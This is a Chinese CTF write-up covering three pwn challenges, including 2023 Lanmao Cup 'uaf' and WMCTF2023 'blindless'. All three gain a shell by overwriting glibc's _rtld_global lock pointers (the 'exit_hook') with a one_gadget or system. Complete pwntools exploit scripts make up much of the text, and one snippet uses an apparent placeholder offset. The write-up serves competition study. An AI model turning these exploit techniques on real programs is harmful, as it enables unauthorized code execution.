AAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAACUAAAAAQAAAAIAAAAAAAAAwAtAAAAAAADACwAAAAAAANwBAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAnAAAAAEAAAACAAAAAAAAAJwNQAAAAAAAnA0AAAAAAABEAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAKoAAAABAAAAAgAAAAAAAADgDUAAAAAAAOANAAAAAAAANAEAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAAC0AAAADgAAAAMAAAAAAAAAoB1gAAAAAACgHQAAAAAAAAgAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAwAAAAA8AAAADAAAAAAAAAKgdYAAAAAAAqB0AAAAAAAAIAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAAAAAAAMwAAAABAAAAAwAAAAAAAACwHWAAAAAAALAdAAAAAAAACAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAADRAAAABgAAAAMAAAAAAAAAuB1gAAAAAAC4HQAAAAAAANABAAAAAAAABgAAAAAAAAAIAAAAAAAAABAAAAAAAAAAgwAAAAEAAAADAAAAAAAAAIgfYAAAAAAAiB8AAAAAAAB4AAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAANoAAAABAAAAAwAAAAAAAAAAIGAAAAAAAAAgAAAAAAAAEAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAADgAAAACAAAAAMAAAAAAAAAECBgAAAAAAAQIAAAAAAAACAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAA5QAAAAEAAAAwAAAAAAAAAAAAAAAAAAAAECAAAAAAAAA1AAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAAEAAAADAAAAAAAAAAAAAAAAAAAAAAAAAEUgAAAAAAAA7gAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=
```

求助misc佬在线字节码转elf，程序除了pie全开

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095416-464934c6-55c6-1.png)

首先要绕过密码，本地VklhvaYq直接过了，但打远程时发现key不对

对比了一下发现base64码有一段是不一样的，推测此处为key的码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095424-4afa5bc6-55c6-1.png)

下面有一次任意写，改exit为ogg就可以通了

改rtld\_lock\_default\_lock\_recursive 或 rtld\_lock\_default\_unlock\_recursive 为 one\_gadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095432-4f8c36c8-55c6-1.png)

我们获取rtld\_lock\_default\_lock\_recursive地址后直接将ogg写入

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095436-5269074a-55c6-1.png)

可惜当时远程没出，没时间试libc版本了  
全场唯一解是amazh师傅tql

###### exp:

```plain
ru('key: ')
sl(b'VklhvaYq')
ru('Give you another chance:(')
sys_addr = int(r(14),16)
li(hex(sys_addr))
libc_base = sys_addr-0x52290
li('libc_base = '+hex(libc_base))

ogs = [0xe3afe,0xe3b01,0xe3b04]
ogg = libc_base + 0xe3afe

exit = libc_base + 0x243F68
li('exit '+hex(exit))

ru('give me a address:')

ld_base = libc_base+0x213000
_rtld_global = ld_base + ld.sym['_rtld_global']
_dl_rtld_lock_recursive = _rtld_global + 0xf08
_dl_rtld_unlock_recursive = _rtld_global + 0xf10

sl(str(_dl_rtld_lock_recursive))
#dbg()
sla('give me a value:',str(ogg))

itr()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095500-60ae2984-55c6-1.png)

另一种需要二次任意写，改`rtld_lock_default_lock_recursive ​`​或 `rtld_lock_default_unlock_recursive`​为`system`​，`_dl_load_lock`​为`/bin/sh\x00`​

```plain
ld_base = libc_base + 0xffffffff
_rtld_global = ld_base + ld.sym['_rtld_global']
_dl_rtld_lock_recursive = _rtld_global + 0xf08
_dl_rtld_unlock_recursive = _rtld_global + 0xf10
_dl_load_lock = _rtld_global + 0x908

#二次任意写
s.send(p64(_dl_rtld_lock_recursive))
s.send(p64(libc_base + libc.sym['system']))

s.send(p64(_dl_load_lock))
s.send(b'/bin/sh\x00')
```

‍

### 2023蓝帽杯半决赛-uaf

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095509-65c95970-55c6-1.png)

菜单题，出题人应该是想让我们打uaf，但程序里面又给了一次任意写的机会

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095514-69023cf6-55c6-1.png)

那就任意写打exit\_hook

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64

# from ae64 import AE64
# from LibcSearcher import *

context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

name = './main'
#libcso = '/lib/x86_64-linux-gnu/libc.so.6'
libcso = './libc-2.31.so'

debug = 0
if debug:
    p = remote('120.78.172.238',43869)
else:
    p = process([b"./main"], env = {"LD_PRELOAD" : libcso})


libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

add_idx = 1
delete_idx = 2
show_idx = 4
edit_idx = 3
admin_idx=5

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss = elf.bss()
li('bss = '+hex(bss))


def choice(cho):
    sla('>>',str(cho))

def add(size,con):
    choice(add_idx)
    sla('size:',str(size))
    sla('content:',con)

def delete(idx):
    choice(delete_idx)
    sla('index:',str(idx))

def show():
    choice(show_idx)

def edit(idx,con):
    choice(edit_idx)
    sla('index:',str(idx))
    sla('content: ',con)

def adm(name,idx):
    choice(admin_idx)
    sa('Passwd: ',str(1234567890))
    sla('Tell me ur name:',name)
    sla('>>',str(idx))

add(0x450, b'aaa')
add(0x10, b'aaa')
delete(0)
show()

libc_base = l64() - 0x1ebbe0
li(hex(libc_base))

adm('shu',2)
_rtld_global = libc_base+0x226060
_dl_rtld_lock_recursive = _rtld_global + 0xf08
_dl_rtld_unlock_recursive = _rtld_global + 0xf10
ru('WRITE MODE: ')
s(p64(_dl_rtld_lock_recursive))

ogs = [0xe6c7e]
og = libc_base + ogs[0]
s(p64(og))

itr()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095524-6f06b654-55c6-1.png)

‍

‍

### WMCTF2023-blindless

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095529-72032720-55c6-1.png)

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v4; // rdx
  unsigned int sizea; // [rsp+Ch] [rbp-14h]
  unsigned int size; // [rsp+Ch] [rbp-14h]
  char *code; // [rsp+10h] [rbp-10h]

  write(1, "Pls input the data size\n", 0x18uLL);
  sizea = readInt();
  data = malloc(sizea);
  if ( !data )
    goto LABEL_2;
  write(1, "Pls input the code size\n", 0x18uLL);
  size = readInt();
  if ( size > 0x100 )
    return -1;
  code = malloc(size);
  if ( !code )
  {
LABEL_2:
    write(1, "error\n", 6uLL);
    return -1;
  }
  v4 = strlen("Pls input your code\n");
  write(1, "Pls input your code\n", v4);
  read(0, code, size);
  executeBrainfuck(code);
  return 0;
}
```

readInt()函数没有对大小进行限制，也就是说当我们申请大小足够触发mmap时，会分配给我们一块libc前的区域，如果我们申请的足够大就意味这我们可以向后越界并通过下面的executeBrainfuck()实现libc中的任意写

```plain
int executeBrainfuck(char *code)

{
  char *code-local;
  char c;
  int i;

  i = 0;
  c = *code;
  while ((i < 0x100 && (c != 'q'))) {
    if (c < 'r') {
      if (c == '@') {
        data = data + *(uint *)(code + (long)i + 1);
        i = i + 5;
      }
      else if (c < 'A') {
        if (c == '>') {
          data = data + 1;
          i = i + 1;
        }
        else if (c < '?') {
          if (c == '+') {
            data = data + 8;
            i = i + 1;
          }
          else if (c == '.') {
            *data = code[(long)i + 1];
            i = i + 2;
          }
        }
      }
    }
    c = code[i];
  }
  return 0;
}
```

通过`'@'`​指令我们可以增加data的大小，在我们触发申请足够触发mmap的空间后，data地址为`mmap_base+0x10`​

而通过`.`​来向写内容，`>`​来抬地址以此来循环写入

那我们可以将`rtld_lock_default_lock_recursive 或 rtld_lock_default_unlock_recursive`​ 写入`system`​

改`_dl_load_lock`​为`/bin/sh\x00`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095540-7854d7cc-55c6-1.png)

但由于我们无法泄露libc地址，所以需要爆破3位打exit\_hook，1/4096概率

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
# from ae64 import AE64
# from LibcSearcher import *


context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

#libcso = '/lib/x86_64-linux-gnu/libc.so.6'
libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def write(content):
    res = b''
    for i in range(len(content)):
        res += b'.' + p8(content[i]) + b'>'
    return res

def dbg():
    gdb.attach(proc.pidof(p)[0])
    pause()

while True:
    p=process(name)
    ru('size\n')
    sl(str(0x100000))
    ru('size\n')
    sl(str(0x100))
    ru('code\n')
    argv0 = 0x33d060 + 0x908
    rtld_lock = 0x33d060 + 0xf08
    system = 0x52290
    payload = b'@' + p32(argv0 - 0x10) + write(b'/bin/sh\x00')
    payload += b'@' + p32(rtld_lock - argv0 - 8) + write(b'\x90\x02\x46') #system
    payload += b'q'
    #dbg()
    sl(payload)
    data=p.recvrepeat(1)
    print(data)
    if b'flag' in data:
        print(data)
        pause()
    p.close()
```

‍

### 参考链接：

[exit hook - 狒猩橙 - 博客园 (cnblogs.com)](https://www.cnblogs.com/pwnfeifei/p/15759130.html)  
[WMCTF2023 pwn 部分wp - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/652099671#blindless)
